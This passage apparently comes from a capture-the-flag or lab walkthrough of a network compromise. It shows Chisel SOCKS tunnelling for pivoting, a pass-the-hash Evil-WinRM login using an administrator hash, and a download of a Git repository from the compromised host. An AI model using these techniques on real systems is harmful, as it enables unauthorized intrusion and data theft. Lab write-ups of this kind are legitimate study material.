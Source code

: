 After uploading Chisel, we need to add a firewall rule to allow a specific TCP port. After that we need to start the Chisel server on that same port.

```
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> .\chisel_win.exe server -p 13377 --socks5
2021/09/15 06:21:22 server: Listening on http://0.0.0.0:13377
```

Now we need to connect to that server from our Kali machine and tunnel all our traffic via socks proxy.

```
⛩\> ./chisel client 10.200.185.150:13377 13388:socks
2021/09/15 05:24:39 client: Connecting to ws://10.200.185.150:13377
2021/09/15 05:24:39 client: tun: proxy#127.0.0.1:13388=>socks: Listening
2021/09/15 05:24:40 client: Connected (Latency 167.746789ms)
```

It’s connected to our chisel server. Now we need to configure our browser to connect .100 machine via socks proxy address. I am using ‘Foxy Proxy’ add-on for firefox to switch easily my predefined proxies.

![Screen Shot 2021-09-14 at 22.27.22.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/2C50B3E1-3DBA-49D8-B9E5-5AA889F7951E_2/Screen%20Shot%202021-09-14%20at%2022.27.22.png)

Make sure to use the same port which we used in previous command. Then try top access the .100 IP from browser.

![Screen Shot 2021-09-14 at 22.30.33.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/FAF1AE08-7BD7-4018-A72A-CC044F94D185_2/Screen%20Shot%202021-09-14%20at%2022.30.33.png)

This looks like the same website as .200 and it’s source is on .150. Let’s download it to our Kali machine using new Evil-WinRM session.

```
⛩\> evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.185.150

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> download c:\gitstack\repositories\website.git
Info: Downloading c:\gitstack\repositories\website.git to website.git


Info: Download successful!
```

It’s downloaded, now we need to extract .git directory from the source and recreate the repository in a readable format. But first rename the subdirectory of downloaded directory to .git

```
⛩\> cd Website.git/

⛩\> mv C\:\\GitStack\\repositories\\Website.git/ .git
```
